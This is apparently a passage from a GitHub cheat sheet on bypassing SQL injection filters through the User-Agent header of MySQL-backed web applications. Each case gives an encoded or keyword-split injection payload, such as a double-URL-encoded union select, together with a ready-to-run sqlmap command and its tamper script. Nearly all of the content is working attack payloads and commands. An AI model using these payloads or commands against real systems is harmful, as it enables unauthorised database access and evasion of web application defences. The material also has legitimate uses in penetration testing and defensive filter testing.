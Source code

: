 Automation with sqlmap:

```bash
sudo python3 sqlmap.py -u "application_url" --dbms=mysql -p user-agent --tamper=tamper/fill.py  --random-agent --banner
```

&nbsp;

**CASE :  URL encoding bypass**

A sample bypass:

```sql
User-Agent: %61%61%61%61%27%20%75%6e%69%6f%6e%20%73%65%6c%65%63%74%20%40%40%76%65%72%73%69%6f%6e%3b%20%2d%2d%20%2d

#User-Agent: aaaa' union select @@version; -- -
```

Automation with sqlmap:

```bash
sudo python3 sqlmap.py -u "application_url" --dbms=mysql -p user-agent --tamper=tamper/charencode.py --random-agent --banner
```

&nbsp;

**CASE :  Double URL encoding bypass**

A sample bypass:

```sql
User-Agent: %25%36%31%25%36%31%25%36%31%25%36%31%25%32%37%25%32%30%25%37%35%25%36%65%25%36%39%25%36%66%25%36%65%25%32%30%25%37%33%25%36%35%25%36%63%25%36%35%25%36%33%25%37%34%25%32%30%25%34%30%25%34%30%25%37%36%25%36%35%25%37%32%25%37%33%25%36%39%25%36%66%25%36%65%25%33%62%25%32%30%25%32%64%25%32%64%25%32%30%25%32%64

#User-Agent: aaaa' union select @@version; -- -
```

Automation with sqlmap:

```bash
sudo python3 sqlmap.py -u "application_url" --dbms=mysql -p user-agent --tamper=tamper/chardoubleencode.py --random-agent --banner
```

&nbsp;

**CASE :  Custom payload prefix and reserved keyword filtering**

A sample bypass:

```sql
User-Agent: ') uFILLnFILLiFILLoFILLn sFILLeFILLlFILLeFILLcFILLt 'TEST'; -- -
```

Automation with sqlmap:

```bash
sudo python3 sqlmap.py -u "application_url" --dbms=mysql -p user-agent --tamper=tamper/fill.py --random-agent --banner --prefix="test')" --suffix="; -- "
```
